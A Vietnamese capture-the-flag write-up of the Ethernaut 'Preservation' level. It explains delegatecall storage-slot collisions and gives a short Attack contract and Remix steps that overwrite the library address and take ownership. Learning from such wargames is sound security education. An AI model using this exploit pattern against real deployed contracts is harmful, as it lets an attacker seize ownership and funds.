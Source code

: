 ```yaml
---
layout: post
title: "The Ethernaut: 16 - Preservation"
mathjax: true
---
```


# 16. Preservation 　★★★★★★

**Nhiệm vụ**: chiếm quyền owner

```js
pragma solidity ^0.4.23;

contract Preservation {

  // public library contracts
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner;
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress;
    timeZone2Library = _timeZone2LibraryAddress;
    owner = msg.sender;
  }

  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(setTimeSignature, _timeStamp);
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(setTimeSignature, _timeStamp);
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp
  uint storedTime;

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

## Solution

Có 2 điều ta cần nắm được về `delegatecall`:

**Điều thứ nhất**: `delegatecall` chỉ là mượn hàm từ một contract khác và gọi hàm đó trong contract của mình.

Để diễn giải điều này, ta xét một ví dụ có thể coi là kinh điển về `delegatecall`, search google phát thấy ngay

```js
contract D {
  uint public n;
  address public sender;

  function delegatecallSetN(address _e, uint _n) {
    _e.delegatecall(bytes4(sha3("setN(uint256)")), _n); // D's storage is set, E is not modified
  }
}

contract E {
  uint public n;
  address public sender;
  function setN(uint _n) {
    n = _n;
    sender = msg.sender;
  }
}
```

Trong contract E ta có một hàm là hàm `setN` sẽ thay đổi giá trị của `n` và `sender`. Trong contract D ta gọi hàm `_e.delegatecall(bytes4(sha3("setN(uint256)")), _n);`, điều này tương đương với việc ta chuyển hàm setN vào bên trong contract D như sau:

```js
contract D {
  uint public n;
  address public sender;

  function delegatecallSetN(uint _n) {
    setN(_n);
  }

  function setN(uint _n) {
    n = _n;
    sender = msg.sender;
  }
}
```

**Điều thứ hai**: khi gọi `delegatecall`, các biến của hàm trong contract E sẽ là *biến với slot tương ứng* của contract D, không cần quan tâm đến tên biến và kiểu dữ liệu.

Ví dụ như bên trên, giả sử ta đổi tên biến và kiểu dữ liệu trong contract D như sau:

```js
contract D {
  address public addr;
  bytes20 public mess;

  function delegatecallSetN(address _e, uint _n) {
    _e.delegatecall(bytes4(sha3("setN(uint256)")), _n); // D's storage is set, E is not modified
  }
}

contract E {
  uint public n;
  address public sender;
  function setN(uint _n) {
    n = _n;
    sender = msg.sender;
  }
}
```

khi này trong D, nếu ta gọi `_e.delegatecall(bytes4(sha3("setN(uint256)")), _n);` thì `addr` sẽ được gán cho giá trị của `_n`, tất nhiên có ép kiểu từ `uint` sang `address`, còn `mess` sẽ được gán cho giá trị của `msg.sender`, ép kiểu từ `address` qua `bytes20`.

Các bạn hãy tự test thử trên RemixIDE để hiểu rõ hơn.

Ok vậy là ta đã hiểu về `delegatecall`, trong bài này ta sẽ áp dụng thế nào ?

Cùng nhìn qua contract `LibraryContract`

```js
contract LibraryContract {

  // stores a timestamp
  uint storedTime;

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

Contract này có một slot duy nhất chứa `storedTime`, do đó nó sẽ tương ứng với slot của `timeZone1Library` trong contract `Preservation` nếu ta gọi `setTime` bằng `delegatecall`. Điều này có ý nghĩa thế nào?

```js
function setFirstTime(uint _timeStamp) public {
  timeZone1Library.delegatecall(setTimeSignature, _timeStamp);
}
```

nó có nghĩa là nếu ta gọi `setFirstTime` thì `timeZone1Library` sẽ được gán bởi `_timeStamp` một lần duy nhất, vì sau đó địa chỉ `timeZone1Library` sẽ trở thành địa chỉ `_timeStamp` rồi.

```js
function setSecondTime(uint _timeStamp) public {
  timeZone2Library.delegatecall(setTimeSignature, _timeStamp);
}
```

nó có nghĩa là nếu ta gọi `setSecondTime` thì `timeZone1Library` sẽ được gán lại bởi giá trị `_timeStamp` bất cứ khi nào gọi hàm

Từ ý nghĩa này, ta có kịch bản tấn công như sau:

- Thay `timeZone1Library` bằng địa chỉ contract tấn công.
- Do trong contract `Preservation`, biến `owner` ứng với slot thứ 3, nên trong contract tấn công ta sẽ có 3 biến, theo đó nếu gọi bằng `delegatecall`, slot thứ 3 sẽ tương tứng với `owner` trong `Preservation`.
- Trong contract tấn công cũng phải có hàm `setTime` y như `timeZone1Library` và `timeZone2Library`, trong hàm này ta sẽ tiến hành đổi owner sang chính mình (tx.origin)
- Contract tấn công sẽ như sau

```js
contract Attack {
  address public slot1;
  address public slot2;
  address public owner;

  function setTime(uint _time) public {
    owner = tx.origin;
  }
}
```

**Note**: Trong các giao dịch, nhớ cho `gasLimit` cao một chút để tránh bị hết gas

- Trên Remix IDE, load contract `Preservation`

![png]({{site.url}}/assets/images/preservation.png)

- Trên Remix IDE, deploy contract `Attack`

![png]({{site.url}}/assets/images/preservation-attack.png)

- Tại `Preservation`, gọi hàm `setFirstTime` với giá trị là địa chỉ của contract `Attack`, đã được convert ra uint256

![png]({{site.url}}/assets/images/preservation-setfirsttime-1.png)

- Tại `Preservation`, gọi hàm `setFirstTime` lần thứ 2 với giá trị bất kì

![png]({{site.url}}/assets/images/preservation-setfirsttime-2.png)

- Kiếm tra lại xem owner đã là mình chưa ?

![png]({{site.url}}/assets/images/preservation-owner.png)

- Submit & all done!

## Bình luận

`delegatecall` và `storage` chưa bao giờ là dễ cả!

Enjoy coding!